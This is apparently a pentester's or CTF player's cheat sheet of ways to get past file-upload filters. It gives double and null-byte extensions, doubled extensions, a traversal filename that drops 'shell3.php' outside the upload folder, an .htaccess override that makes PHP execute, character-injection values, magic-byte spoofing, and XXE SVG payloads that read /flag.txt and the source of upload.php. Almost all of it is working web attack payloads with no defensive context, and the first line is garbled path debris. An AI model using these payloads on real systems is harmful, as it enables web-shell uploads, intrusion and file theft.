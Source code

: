 [[encoding]]
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt

##### Double extension 
`.jpg.php`

##### Reverse Double Extension
`.php.jpg`

##### Add trailing characters. 
Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`

##### URL encoding
%

##### Null byte
Adding `%00` to http requests creates miracles.
`exploit.php%00.jpg`
then open `/uploads/exploit.php%00.jpg` 
`%00` ends parsing on it and downloads `exploit.php`

##### Low level functions of C/C++
`exploit.asp;.jpg` or `exploit.asp%00.jpg`

###### Try using multibyte unicode characters,
Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E`

##### If extensions is stripped, double it
`exploit.p.phphp`

##### Upload to different directory
```
Content-Disposition: form-data; name="avatar"; filename="../shell3.php"
```

Trying to bypass filters:
```
filename="..%2fshell3.php"
```

then open `avatars/../shell3.php`

##### Replace .htaccess if some extensions are not allowed

```
AddType application/x-httpd-php .nope
```

##### Character Injection

- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

Content-type:

in the zero bytes of file:

`GIF8`
`PNG`

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

Mime types:

[File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime).

SVG/XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "/flag.txt"> ]>
<svg>&xxe;</svg>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```